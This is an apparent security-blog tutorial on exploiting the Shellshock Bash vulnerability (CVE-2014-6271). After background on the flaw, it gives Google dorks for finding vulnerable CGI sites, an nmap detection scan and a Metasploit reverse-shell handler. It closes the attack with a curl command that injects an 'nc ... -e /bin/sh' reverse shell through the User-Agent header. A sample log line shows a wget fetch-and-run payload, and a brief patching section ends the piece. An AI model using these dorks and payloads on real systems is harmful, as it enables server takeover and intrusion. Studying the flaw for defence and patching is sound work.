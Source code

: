 ## Exploit Shellshock Vulnerability CVE 2014-6271 using Metasploit

A recent study from July 2019 shows that the security vulnerability called **ShellShock** CVE-2014-6271 discovered in 2014 would still be present on a large number of servers in the world although patchs have been created since several years. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue.

**Shellshock**, also known as **Bashdoor**, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014\. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the **ForceCommand** feature in **OpenSSH** sshd, the **mod_cgi** and **mod_cgid** modules in the **Apache HTTP Server**, scripts executed by unspecified **DHCP clients**, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka “ShellShock”.

**Source:** [cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

* * *

###### ANATOMY OF THE ATTACK

**Test your environment**

Just run this bash script in your system and you will see if you are vulnerable or not:

```none
env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"
```

**Can I detect if someone has exploited this against me?**

We would recommend reviewing your HTTP logs and check if there is anything suspicious. An example of a malicious pattern:

```none
192.168.1.1 – – [25/Sep/2014:14:00:00 +0000] "GET / HTTP/1.0"  400 349 "() { :; }; wget -O /tmp/besh http://192.168.1.1/filename; chmod 777 /tmp/besh; /tmp/besh;"
```

There are also some patches for bash that log every command that is being passed to the bash interpreter. This is a good way to see if someone has exploited your machine. It won’t prevent someone from exploiting this vulnerability, but it will log the attackers actions on the system.

**How serious is the threat?**

This bug is very dangerous indeed, but not **EVERY** system is vulnerable. Special conditions must be met for a web server to be exploited. One of the biggest problems now is that when patches are published, researchers will look for other ways to exploit bash, explore different conditions that enable it to be exploited, etc. So a patch that helps prevent remote code execution can’t do anything against, for example, a file overwrite. So there will probably be a series of patches and in the meantime systems are still vulnerable.

* * *

###### GOOGLE DORK

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. In order to cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it's easy for a blackhat to build a list of potential vulnerable websites.

```none
sitemap.xml filetype:xml intext:"cgi-bin"
filetype:sh inurl:cgi-bin
filetype:sh
intext:cgi-bin
intitle:apache "cgi-bin"
inurl:cgi-bin
inurl:wspd_cgi.sh
inurl:wslb.sh
inurl:"server-status" intitle:apache "cgi-bin"
inurl:cgi-bin "GATEWAY_INTERFACE = CGI"
inurl:cgi-bin inurl:printenv intext:SERVER_ADDR
```

* * *

###### VULNERABILITY ANALYSIS

In order to detect the vulnerability, we can use **nmap**. To detect this vulnerability the script **http-shellshock** executes a command that prints a random string and then attempts to find it inside the response body. Web apps that don't print back information won't be detected with this method.

```bash
nmap -sV -p- --script http-shellshock <target>
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
```

**Output**

```none
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

Once the vulnerability is discovered by the hacker, it can exploit it using Metasploit.

* * *

###### CREATE MSF SESSION

Once a potential flaw has been discovered in an environment, it can easily be exploited as demonstrated below. In order to open a session from our targeted website we will need to create an exploit multi-handler on our **Metasploit**. This can be done very quickly using the below commands.

```bash
# Open Metasploit
msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 0.0.0.0
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

**Output**

![image-1](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/00bbf7194c2d86d6fe89edf34e38d7be-1.png "Image-1")

On the above example we are using a Linux X86 Shell Reverse TCP payload, off course the type of payload shall be different if we are targeting a Windows machine.

* * *

###### EXPLOIT THE TARGET

We are now going to send our exploit in order to create a reverse shell using a bash terminal and forward the traffic through the MSF handler using TCP protocol.

**Bash Command**

```bash
# Replace "YOUR-IP" with your tunnel IP or host adddress
# Replace "YOUR-PORT" with the port you configured
curl -k -H 'User-Agent: () { :;}; /bin/bash -c "nc YOUR-IP YOUR-PORT -e /bin/sh"' http://localhost:8080/cgi-bin/vulnerable
```

You are done !! If your targeted website is vulnerable to CVE-2014-7169 exploit, a session will be created in your **Metasploit** allowing you to take over the targeted server.

* * *

###### HOW TO PROTECT YOURSELF FROM SHELLSHOCK VULNERABILITIES

The answer is simple: patch your system. If your system is not yet patched, you have no one to blame but yourself. This vulnerability has been out for years, and pretty much all systems have patches available. To cut short, the best way to protect yourself against this type of vulnerability is to keep your system up to date applying all the fixes released for this exploit.
